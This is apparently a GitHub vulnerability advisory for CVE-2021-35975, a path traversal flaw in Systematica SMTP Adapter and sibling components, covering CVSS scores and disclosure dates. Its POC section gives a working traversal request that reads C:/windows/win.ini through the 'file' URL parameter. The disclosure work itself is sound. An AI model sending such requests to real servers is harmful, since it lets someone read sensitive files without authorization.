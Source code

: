 # CVE-2021-35975

Systematica SMTP Adapter versions prior to v2.0.1.101 are vulnerable to directory traversal, which may allow an attacker to read sensitive files.

CVSS v2: (AV:N/AC:L/Au:N/C:P/I:N/A:N)

CVSS v2 Score (BS): 3

CVSS v3: (AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N)

CVSS v3 Score (BS): 3.0


# Information

<b>Description:</b> Absolute path traversal vulnerability in the Systematica SMTP Adapter component (up to v2.0.1.101) in Systematica Radius (up to v.3.9.256.777) allows remote attackers to read arbitrary files via a full pathname in GET parameter "file" in URL. 

Also: affected components in same product - HTTP Adapter (up to v.1.8.0.15), MSSQL MessageBus Proxy (up to v.1.1.06), Financial Calculator (up to v.1.3.05), FIX Adapter (up to v.2.4.0.25)

<b>Class:</b> Design Error 

<b>Researcher:</b> Vadim Golovanov

<b>Issue date:</b> 2021-05-29 (Initial Advisory)

<b>Private release:</b> 2021-06-30

<b>Public release:</b> 2021-08-21

<b>Disclosure Link:</b>

<b>NIST CVE Link:</b>

<b>CWE:</b> 22 or 36 - Absolute Path Traversal

# POC

<b>An example of vector:<b/>
  
SMTP adapter              http://SERVER:PORT/info?page=logfile&file=C:/windows/win.ini
  
ALSO ACTUAL FOR:

HTTP adapter, MSSQL MessageBus Proxy, Financial Calculator, FIX Adapter and others...


<b>POST RE-FINDING CVE:<b/>

<b>CVE-2022-39838</b> https://github.com/jet-pentest/CVE-2022-39838
  
# Screenshots:
  
![](CVE_2021_35975_1.png)

![](CVE_2021_35975_2.png)
